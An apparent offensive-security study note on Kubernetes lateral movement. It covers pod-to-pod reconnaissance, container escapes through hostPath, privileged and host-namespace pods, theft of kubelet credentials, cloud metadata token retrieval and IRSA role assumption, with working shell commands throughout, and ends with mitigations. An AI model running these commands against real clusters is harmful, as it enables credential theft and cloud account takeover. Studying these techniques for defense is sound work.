

# Lateral Movement in Kubernetes

## Introduction
Lateral movement within a Kubernetes (K8s) environment differs significantly from traditional Active Directory or flat network environments. A Kubernetes cluster is an orchestration engine consisting of multiple overlapping network spaces (Pod network, Node network, Cluster network), distinct identity boundaries (Service Accounts, Cloud IAM), and shared kernel boundaries. 

When an attacker compromises a single container (Pod), their immediate goal is to break out of that isolation boundary. Lateral movement in K8s can be categorized into three distinct planes:
1. **Pod-to-Pod** (Network Layer)
2. **Pod-to-Node** (Host / Infrastructure Layer)
3. **Node-to-Cluster** (Control Plane Layer)
4. **Cluster-to-Cloud** (Cloud IAM / Infrastructure Layer)

## Architecture & Attack Vectors



## 1. Pod-to-Pod Lateral Movement
By default, Kubernetes uses a "flat" network architecture. Unless specifically restricted by `NetworkPolicies`, any Pod can communicate with any other Pod across all namespaces.

### Network Reconnaissance
Once inside a Pod, the first step is discovering other services.
- **DNS Enumeration**: K8s uses CoreDNS. The internal DNS format is `<service-name>.<namespace>.svc.cluster.local`.
  ```bash
  # Check DNS configuration
  cat /etc/resolv.conf
  
  # Brute-force internal subdomains using a simple bash loop
  for ns in default kube-system test dev; do
    for svc in db redis mysql api web; do
      nslookup $svc.$ns.svc.cluster.local 2>/dev/null
    done
  done
  ```
- **Service Enumeration via Env Vars**: K8s injects environment variables into Pods for all services in the *same namespace* that were running before the pod started.
  ```bash
  env | grep _TCP_PORT
  ```
- **Port Scanning**: Attackers often upload static binaries of `nmap` or `masscan`, or use native tools like `nc` and `curl` to map the internal Classless Inter-Domain Routing (CIDR) ranges (e.g., `10.244.0.0/16`).

## 2. Pod-to-Node Lateral Movement (Container Escapes)
To move from the Pod to the underlying worker Node, attackers exploit misconfigurations in the Pod Security Context.

### HostPath Mounts
If a Pod mounts `/` from the host, the attacker can chroot into it.
```yaml
volumes:
- name: host-root
  hostPath:
    path: /
```
**Exploitation:**
```bash
chroot /mnt/host-root bash
```
Once on the host, the attacker can access the kubelet's `kubeconfig` file (usually at `/etc/kubernetes/kubelet.conf` or `/var/lib/kubelet/kubeconfig`).

### Privileged Containers & Capability Exploitation
A `privileged: true` pod essentially has all Linux capabilities.
```bash
# Check capabilities
capsh --print

# Escape using the standard cgroups release_agent technique or simply mounting the host device
fdisk -l
mount /dev/sda1 /mnt
```
Other dangerous capabilities include `CAP_SYS_ADMIN` (allows mounting), `CAP_SYS_PTRACE` (allows process memory injection), and `CAP_SYS_MODULE` (allows loading malicious kernel modules).

### HostNamespaces (hostNetwork, hostPID, hostIPC)
- **hostNetwork**: The pod shares the network namespace of the node. The attacker can sniff node traffic, access `localhost` bound services on the node, or bypass egress firewalls.
- **hostPID**: The pod can see all processes on the node.
  ```bash
  nsenter -t 1 -m -u -n -i sh
  ```

## 3. Node-to-Cluster Lateral Movement
Once a worker Node is compromised, the attacker acts as the `kubelet` agent. 

### Stealing Kubelet Credentials
The Kubelet authenticates to the API server using client certificates.
```bash
# Locate kubelet configuration
cat /etc/kubernetes/kubelet.conf
```
Using the kubelet credentials, the attacker can query the API server. However, modern K8s employs the `NodeRestriction` admission controller, which limits kubelets to modifying only their own Node and Pods bound to them.

### Bypassing NodeRestriction / Pivoting
To bypass this and impact the whole cluster, an attacker will look for:
1. **High-Privilege Pods on the Node**: The attacker can use their root access on the node to `docker exec` or `crictl exec` into other pods running on the same node. If an admin pod with a `ClusterRoleBinding` to `cluster-admin` is on the node, the attacker jumps into it and steals its Service Account token.
2. **Kube-Proxy Abuse**: `kube-proxy` config files might contain tokens with broader network manipulation rights.

## 4. Cluster-to-Cloud Lateral Movement
Kubernetes clusters hosted in AWS (EKS), GCP (GKE), or Azure (AKS) often bind Cloud Identity and Access Management (IAM) roles to worker nodes or specific pods (IRSA - IAM Roles for Service Accounts).

### Cloud Metadata API (IMDS)
From a compromised pod, attempt to query the Cloud Provider's Instance Metadata Service (IMDS).
**AWS (IMDSv1):**
```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
# Fetch token
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<RoleName>
```
**GCP Metadata:**
```bash
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
With these cloud tokens, the attacker pivots entirely out of the Kubernetes cluster and begins interacting with the cloud provider's API (e.g., S3 buckets, compute instances).

## Defense & Mitigation
1. **Network Policies**: Implement Default Deny Network Policies. Only whitelist required pod-to-pod communications.
2. **Pod Security Standards (PSS)**: Enforce the `Restricted` profile using Pod Security Admission (PSA) to prevent privileged pods, host mounts, and host namespaces.
3. **IMDSv2 & Metadata Concealment**: Enforce IMDSv2 (which requires a `PUT` request with a hop limit, breaking simple SSRF/proxy bypasses). Use network policies to block access to `169.254.169.254` from non-system pods.
4. **Least Privilege IAM**: Use IRSA (IAM Roles for Service Accounts) or Workload Identity instead of attaching broad IAM roles to the underlying EC2/Compute nodes.


## Deep Dive: Advanced CNI Exploitation and Overlay Networks
When an attacker moves laterally from Pod to Pod, they must navigate the cluster's Container Network Interface (CNI). CNIs like Calico, Flannel, or Cilium manage the overlay network (e.g., VXLAN, IPIP).

### Bypassing Network Segmentation via Encapsulation
If an attacker compromises a node, they can manipulate the host's routing tables and overlay interfaces (e.g., `flannel.1` or `cali*`) to spoof traffic from trusted pods.

```bash
# Inspecting Calico interfaces on a compromised node
ip link show | grep cali
# Inspecting the routing table to find pod subnets
ip route
```

By injecting raw packets into the `cni0` bridge or the specific pod veth interfaces, the attacker can bypass IP-based restrictions.

### NodeProxy API Exploitation
If the API server is reachable but pod-to-pod networking is blocked, an attacker can use the Kubelet's `proxy` subresource for lateral movement. The API server can proxy HTTP requests directly to pods or nodes.

```bash
# Proxying traffic to an internal pod via the API Server
curl -k -H "Authorization: Bearer $TOKEN" \
  https://$API_SERVER/api/v1/namespaces/default/pods/target-db-pod:5432/proxy/
```

### Escalating to Control Plane via Cloud IAM (IRSA)
In AWS EKS, IAM Roles for Service Accounts (IRSA) maps a Kubernetes Service Account to an AWS IAM Role via OIDC (OpenID Connect).
When a pod uses IRSA, the AWS SDK expects a token located at the path defined by the `$AWS_WEB_IDENTITY_TOKEN_FILE` environment variable.

```bash
# Inside a compromised pod
echo $AWS_ROLE_ARN
echo $AWS_WEB_IDENTITY_TOKEN_FILE

# Read the OIDC token
cat $AWS_WEB_IDENTITY_TOKEN_FILE

# Assume the role directly using the AWS CLI
aws sts assume-role-with-web-identity \
  --role-arn $AWS_ROLE_ARN \
  --role-session-name lateral-movement \
  --web-identity-token file://$AWS_WEB_IDENTITY_TOKEN_FILE
```
This entirely bypasses the Kubernetes boundary, giving the attacker permissions in the AWS account (e.g., reading S3, modifying EC2 instances), fulfilling the Cluster-to-Cloud lateral movement vector.

## Chaining Opportunities
- **[[18 - Kubernetes Secret Enumeration]]**: Stolen tokens from one pod can be used to authenticate and move laterally to the API server, querying for more secrets.
- **[[08 - Container Breakouts]]**: Essential techniques for bridging the gap between Pod and Node.
- **[[14 - Cloud IAM Privilege Escalation]]**: Once the Cloud Metadata API is reached, K8s lateral movement transitions into Cloud IAM escalation.

## Related Notes
- [[22 - Defense — Pod Security Admission, Network Policies, RBAC Hardening]]
- [[10 - SSRF and Cloud Metadata]]
